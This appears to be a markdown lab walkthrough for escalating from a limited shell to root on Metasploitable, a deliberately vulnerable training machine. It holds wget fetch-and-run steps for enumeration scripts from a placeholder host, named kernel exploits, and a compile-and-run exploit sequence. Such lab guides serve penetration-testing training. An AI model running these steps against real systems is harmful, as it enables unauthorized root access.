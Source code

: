🔓 Privilege Escalation – Metasploitable

In this phase, we aim to escalate our privileges from a limited shell (e.g., `msfadmin`, `user`, etc.) to `root` using local enumeration and known vulnerabilities.

---

## 🧭 Step 1: System Enumeration

Once you have a shell, start with basic recon:

```bash
uname -a
cat /etc/issue
id
whoami
````

Look for:

* Kernel version
* OS distribution
* User privileges
* Writable directories
* Scheduled jobs

---

## 🛠️ Step 2: Use Enumeration Scripts

### ➤ Option 1: LinEnum

```bash
wget http://<your_ip>/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### ➤ Option 2: LinPEAS

```bash
wget http://<your_ip>/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

These tools highlight:

* SUID binaries
* Weak file permissions
* Misconfigured services
* Cron jobs
* Environment variables

---

## 📌 Common PrivEsc Vectors on Metasploitable

### 🔹 1. Kernel Exploits

Run `uname -r`:

```bash
uname -r
# Example: 2.6.24-16-server
```

Search on Exploit-DB:

```bash
searchsploit 2.6.24
```

Try:

* **Dirty COW** (`dirtycow.c`)
* **Overlayfs** (`overlayfs_local_root_priv_esc.c`)

### 🔹 2. Weak NFS / Cron Permissions

Check crontab:

```bash
cat /etc/crontab
```

Look for writable scripts being executed on a schedule.

### 🔹 3. Misconfigured Services

Check for services running as root that can be hijacked:

```bash
ps aux | grep root
```

Look for poorly configured services, like:

* MySQL with root shell command
* SUID binaries in `/usr/bin`

---

## 🔥 Example: Using a Kernel Exploit

```bash
# Download and compile exploit
gcc 9542.c -o exploit
./exploit
```

✅ Result:

```bash
# whoami
root
```

---

## ✅ Confirm Root Access

Once you’ve escalated privileges:

```bash
whoami
id
hostname
```

Create a proof:

```bash
echo "Rooted Metasploitable!" > /root/pwned.txt
```
